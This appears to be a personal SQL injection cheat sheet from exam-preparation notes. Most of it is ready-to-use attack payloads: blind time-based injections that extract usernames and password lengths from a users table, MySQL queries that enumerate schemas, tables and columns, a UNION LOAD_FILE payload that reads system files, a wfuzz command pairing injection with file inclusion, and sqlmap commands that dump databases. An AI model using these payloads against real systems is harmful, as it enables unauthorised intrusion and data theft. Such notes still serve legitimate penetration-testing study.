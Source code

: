### :open_file_folder: References

- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
```

[Load file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file): we need FILE privilege

```MySQL
SELECT * LOAD_FILE('C:\Windows\System32\drivers\etc\hosts')
/* table contains columns */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- -
```

Combining website LFI

```shell
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "username=' UNION SELECT 1, LOAD_FILE('FUZZ'), 3, 4, 5, 6; -- -" --hw 89 <url>
# -d postdata
# -z file,wordlist
# hw:hide responses words
```

### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```
sqlmap -u "url" --dump -C "columns" -T "tables" -D "database" 
sqlmap -r post.txt -p "parameter_name" --dump -C "columns" -T "tables" -D "database"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


